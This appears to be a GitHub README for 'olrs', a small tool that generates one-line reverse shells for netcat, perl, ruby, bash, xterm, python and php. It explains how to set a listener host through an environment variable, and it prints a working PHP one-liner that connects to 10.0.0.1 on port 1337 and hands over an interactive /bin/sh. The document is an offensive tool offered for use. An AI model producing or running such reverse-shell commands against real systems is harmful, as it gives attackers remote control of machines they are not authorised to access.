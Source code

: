 # olrs
one line reverse shells

# usage

`$ chmod +x olrs`

#### olrs will check for `RS_HOST` ENV variable first and use it if no host is provided

`export RS_HOST=10.0.0.1 >> ~/.bashrc && source ~/.bashrc`

`$ ./olrs -l php -p 1337`

#### if no RS_HOST ENV variable

`$./olrs -l php -h 10.0.0.1 -p 1337`

#### prints 
`$ php -r '$sock=fsockopen("10.0.0.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`


# options

* `[-l language] nc | ncs (netcat without execute) | perl | ruby | bash | xterm | python | php`
* `[-h host]`
* `[-p port]` default = 1337
